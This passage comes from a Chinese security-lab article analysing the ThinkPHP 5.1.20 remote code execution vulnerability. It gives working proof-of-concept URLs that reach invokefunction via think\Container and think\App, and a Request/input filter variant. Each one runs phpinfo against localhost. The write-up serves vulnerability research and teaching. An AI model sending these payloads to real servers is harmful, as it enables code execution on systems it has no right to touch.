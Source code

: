 剩下就是指定$function参数和$var参数值了,根据传参特点，我们来构造下。

http://127.0.0.1/tp5.1.20/public/index.php/index/think\Container/invokefunction/function/call_user_func_array/vars[0]/phpinfo/vars[1][]/1

构造出来应该是这样的，但是由于在pathinfo模式下，$_SERVER[‘PATH_INFO’]会自动将URL中的“\”替换为“/”，导致破坏掉命名空间格式，所以我们采用兼容模式。

默认配置中，var_pathinfo默认为s，所以我们可以用$_GET[‘s’]来传递路由信息。

http://127.0.0.1/tp5.1.20/public/index.php?s=index/think\Container/invokefunction&amp;function=call_user_func_array&amp;vars[0]=phpinfo&amp;vars[1][]=1

另外由于App类继承于Container类，所以POC也可以写成：

http://127.0.0.1/tp5.1.20/public/index.php?s=index/think\App/invokefunction&amp;function=call_user_func_array&amp;vars[0]=phpinfo&amp;vars[1][]=1

漏洞利用扩大化

1.以反斜线\开始时直接将其作为类的命名空间路径。

2.thinkphp命名空间自动加载类的特性。

由于这两点，就会造成我们可以调用thinkphp框架中的任意类。所以在框架中，如果其他类方法中也有类似于invokefunction()方法中这样的危险函数，我们就可以随意利用。

例如：Request类中的input方法中就有一样的危险函数。

[![](https://p3.ssl.qhimg.com/t01e0d5f6a6fa41094e.jpg)](https://p3.ssl.qhimg.com/t01e0d5f6a6fa41094e.jpg)

跟入filterValue()方法

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t0142e185ab6a9c4fa3.jpg)

POC:

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t0133c2391da30fc2cc.jpg)

http://127.0.0.1/tp5.1.20/public/index.php?s=index/\think\Request/input&amp;filter=phpinfo&amp;data=1



## 0x05 结语

写这篇文章的其中一个目的是想让大家知道，通过框架分析，我们不仅可以在分析漏洞时变得更加容易，同时也可以对漏洞原理有一个更深的理解。所以，当我们在分析一个漏洞时，如果很吃力或者总有点小地方想不通的时候，不如从它的框架着手，一步一步来，或许在你学习完后就会豁然开朗，亦或者在过程中你就会明白为什么。

天融信阿尔法实验室成立于2011年，一直以来，阿尔法实验室秉承“攻防一体”的理念，汇聚众多专业技术研究人员，从事攻防技术研究，在安全领域前瞻性技术研究方向上不断前行。作为天融信的安全产品和服务支撑团队，阿尔法实验室精湛的专业技术水平、丰富的排异经验，为天融信产品的研发和升级、承担国家重大安全项目和客户服务提供强有力的技术支撑。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t0164db2d0728f48477.jpg)

天融信阿尔法实验室
